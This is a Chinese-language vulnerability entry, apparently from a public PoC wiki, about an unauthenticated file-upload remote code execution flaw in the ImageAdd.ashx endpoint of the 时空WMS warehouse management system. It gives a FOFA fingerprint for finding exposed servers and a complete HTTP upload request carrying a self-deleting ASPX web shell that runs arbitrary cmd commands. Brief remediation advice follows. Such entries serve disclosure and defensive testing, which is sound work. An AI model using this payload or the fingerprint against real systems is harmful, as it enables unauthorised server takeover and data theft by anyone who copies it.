


# 时空WMS-仓储精细化管理系统 ImageAdd.ashx 文件上传致RCE漏洞

# 漏洞描述

时空WMS-仓储精细化管理系统 ImageAdd.ashx 接口存在文件上传漏洞，电子资料管理系统 /Menu/ImageManger/ImageUpload.ashx 接口存在文件上传漏洞，未经身份验证的攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

# 影响版本

时空WMS-仓储精细化管理系统

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="SKControlKLForJson.ashx"

POC/EXP：

POST /ImageUpload/ImageAdd.ashx HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryssh7UfnPpGU7BXfK
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

------WebKitFormBoundaryssh7UfnPpGU7BXfK
Content-Disposition: form-data; name="file"; filename="rce.aspx"
Content-Type: text/plain

<%@ Page Language="Jscript" validateRequest="false" %><%var c=new System.Diagnostics.ProcessStartInfo("cmd");var e=new System.Diagnostics.Process();var out:System.IO.StreamReader,EI:System.IO.StreamReader;c.UseShellExecute=false;c.RedirectStandardOutput=true;c.RedirectStandardError=true;e.StartInfo=c;c.Arguments="/c " + Request.Item["cmd"];e.Start();out=e.StandardOutput;EI=e.StandardError;e.Close();Response.Write(out.ReadToEnd() + EI.ReadToEnd());System.IO.File.Delete(Request.PhysicalPath);Response.End();%>
------WebKitFormBoundaryssh7UfnPpGU7BXfK--

# 漏洞修复

关闭互联网暴露面，文件上传接口处设置权限控制，添加黑白名单过滤

打补丁或升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
